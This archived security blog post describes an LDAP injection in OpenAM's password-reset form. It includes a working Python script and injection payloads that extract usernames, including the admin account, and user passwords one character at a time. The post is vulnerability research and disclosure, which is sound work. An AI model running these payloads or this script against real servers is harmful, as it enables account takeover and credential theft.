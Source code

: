 # LDAP INJECTION IN OPENAM
* Original URL: https://blog.cybercastle.io/ldap-injection-in-openam/
* Archive.org URL: https://web.archive.org/web/20210226031627/https://blog.cybercastle.io/ldap-injection-in-openam/

**TL;DR**

In this article we explain how we were able to identify and exploit an LDAP injection vulnerability within OpenAM access management  server platform.

**About OpenAM**

OpenAM is an open-source access management, entitlements and federation server platform. It was sponsored by ForgeRock until 2016. Now it is supported by Open Identity Platform Community. OpenAM originated as OpenSSO, an access management system created by Sun Microsystems and now owned by Oracle Corporation. Wikipedia

**LDAP Injection**

LDAP Injection is an attack used to exploit web based applications that construct LDAP statements based on user input. When an application fails to properly sanitize user input, it’s possible to modify LDAP statements through techniques similar to SQL Injection

**Vulnerability Details**

The vulnerability was found in the password reset feature that OpenAM provides. When a user tries to reset his password, he is asked to enter his username then the backend validates whether the user exists or not through an LDAP query before the password reset token is sent to the user’s email.  Setting the value of the username parameter PWResetUserValidation.tfUserAttr to * caused the server to respond with the following error Error: There is more than one user matching the specified value. Enter a different value, or contact your administrator for assistance. which indicates that it could be vulnerable to LDAP injection.

Setting the value of PWResetUserValidation.tfUserAttr parameter to **)|(objectclass=** returned the same error which means that the query returned more than a user. With that said, it’s possible to fetch any data from the directory service database using the following technique:

If the query returns more than one result => There error returned will be:  There is more than one user matching the specified value

If the query returns only one result => There are no questions configured for you or asks the user to answer questions

If the query doesn’t return anything => The password cannot be reset for this user

Thus, It’s possible to fetch the value of any property for the user object if we know the property name using **)|(propertyName=**a and if the server doesn’t return the errror: The password cannot be reset for this user then the value of the property has a character “a” and we can keep trying other characters until we get the full value.

Since the injection point is within the username property, we were able to extract usernames from the active directory service database using the following python script:

import requests

url = "https://[REDACTED]/amserver/ui/PWResetUserValidation"

charlist = "@_/:$%&^+,-=.1234567890abcdefghijklmnopqrstuvwxyza"

headers = {"Cookie":"[REDACTED]", User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0"

}

restart = True

res = ''

while restart:

restart = False

for char in charlist:

r = requests.post(url, headers=headers,data={"PWResetUserValidation.fldUserAttr":"uid",

"PWResetUserValidation.tfUserAttr":"%s%s*)(objectclass=*" % (res,char), "PWResetUserValidation.btnNext":"%C2%A0Next%C2%A0","jato.defaultCommand":"/btnNext","jato.pageSession":"1"}, verify = False)

print "%s%s %s" % (res,char, str(r.status_code))

# print r.content

if "cannot be reset for this user" not in r.content:

print "found %s%s" % (res,char)

res = "%s%s" % (res,char)

restart = True

break

And after running the script, it returned the username of the admin user: amadmin

After further testing, we decided to see if it would be possible to fetch passwords or password reset tokens.

First, we need to get the object class name, we were able to do this by setting the value of PWResetUserValidation.tfUserAttr parameter in the script to “**)(objectclass=**%s%s” % (char,res) which returned sunServiceComponent

![Untitled](images/forgerock_openam_ldapinj_0.png)

Now all we have to do is to look for the documentation of sunServiceComponent class at https://docs.oracle.com/cd/E19563-01/819-4437/6n6jckr11/index.html

One of the allowed attributes for this class is sunKeyValue which returns all attributes assigned to the user including the userPassword value.

Thus, we were able to fetch the user password by setting the value of PWResetUserValidation.tfUserAttr parameter in the script to “PWResetUserValidation.tfUserAttr”:”**)(sunKeyValue=**userPassword=%s%s*” % (res,char)

![Untitled](images/forgerock_openam_ldapinj_1.png)

That’s it for today, follow us and subscribe to our newsletter for more interesting writeups!

WRITTEN BY: MAHMOUD GAMAL
